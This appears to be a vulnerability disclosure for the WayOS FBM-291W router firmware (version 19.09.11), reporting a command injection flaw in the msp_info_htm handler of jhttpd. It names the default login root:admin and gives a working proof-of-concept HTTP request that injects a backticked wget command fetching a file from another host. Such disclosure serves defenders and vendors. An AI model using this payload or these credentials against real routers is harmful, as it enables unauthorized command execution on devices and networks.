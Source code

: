 Firmware Name: FBM_291W-19.09.11V.trx 

- Model: FBM-291W 

-  Version: 19.09.11

- Test Environment: Ubuntu 18.04 

- offical website:https://www.wayos.com/

  download link:https://www.wayos.com/product/jiatingzuwang/jiayongwuxian/jiatingwifituijian/2355.html





  FBM-291W is a multi-WAN wireless gigabit behavior management router designed for coffee shops, small to medium-sized businesses, chain organizations, and home environments. It features outstanding internet behavior management functions. It has 128M memory and 16M flash memory. The router not only supports Viman's fourth-generation smart QoS, behavior management, smart WiFi, VPN connection, and security defense functions, but also supports intelligent wireless technology, dual-band 2.4GHz and 5G wireless, and wireless transmission rates up to 1200Mbps. The application of these functions will bring great convenience to managers and is an ideal choice for smart WiFi network solutions. There is a command execution vulnerability in its jhttpd's msp_info_htm function.

affect version:

![image](https://github.com/user-attachments/assets/8cbebe2c-f3e7-4296-9a3b-0bed7653b9cc)










![image](https://github.com/user-attachments/assets/b863218f-eaba-4fe6-96b7-1cc58303b218)


![image](https://github.com/user-attachments/assets/4a3498e5-6b80-4642-b7d9-3efad7ebec33)




exploit: 

After logging in with the default password root:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.
poc

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/test.txt` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B

Upgrade-Insecure-Requests: 1


```

![image](https://github.com/user-attachments/assets/410e26ee-98e5-46da-8b11-f2eb6676342c)
